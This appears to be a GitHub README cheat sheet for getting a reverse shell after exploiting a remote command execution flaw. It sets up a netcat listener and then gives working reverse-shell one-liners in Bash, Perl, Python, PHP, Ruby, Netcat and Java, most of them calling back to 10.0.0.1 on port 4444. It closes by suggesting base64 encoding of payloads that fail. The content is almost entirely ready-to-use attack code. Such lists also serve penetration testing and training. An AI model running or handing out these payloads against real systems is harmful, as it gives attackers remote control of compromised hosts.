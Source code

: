 # Getting reverse shell HOWTOs &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/shell1.png" width="30"/>
After having success with a remote command execution vulnerability, you'll probably wish to get an interactive shell. You will see that your target cannot execute any reverse shell scripting languages; it's limited to the current vulnerable application language.  
  
Before starting, you will need netcat installed on your listener host.
  
**Ubuntu/Debian distrib:** *sudo apt-get install nc -y*  
**Other Linux distros (CentOS, RedHat, ...):** *yum install nc -y*  
  
Now that netcat is successfully installed on your listener host, type: *nc -l -v 4444*  
You will find below different ways in obtaining a reverse shell in multiple langs.  
  
## Bash &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/bourne_again.jpg" width="20"/>
Based that your local IP would be *10.0.0.1* and listener port on netcat is *4444*
```
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```
  
## Perl &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/perl.jpg" width="50"/>
```
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
  
## Python &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/python.jpg" width="70"/>
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/php.png" width="40"/>
Assuming that the TCP connection is using file descriptor 3. If it doesn't work, try 4, 5, 6...
  
```
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
  
## Ruby &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/ruby.png" width="20"/>
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
  
## Netcat &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/netcat.gif" width="80"/>
Most of the time in a prod environment, netcat won't be installed. Still, you can give it a try ;)
  
```
nc -e /bin/sh 10.0.0.1 4444
```
Since there is multiple different versions of netcat, the syntax can be different. If the first one above didn't work, try this:
  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
```
  
## Java &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/java1.jpg" width="40"/>
Tried it on a Jenkins local server and works like a charm
  
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Conclusion
Sometimes, getting a reverse shell back on our listener requires more work; if you still don't have success getting a reverse shell, it's possible that the payload sending the command for getting the rev shell needs to be encoded with something like base64 or base64url. If you have any questions on that subject, don't hesitate to pm me.

E-mail: syriusbughunt@protonmail.com
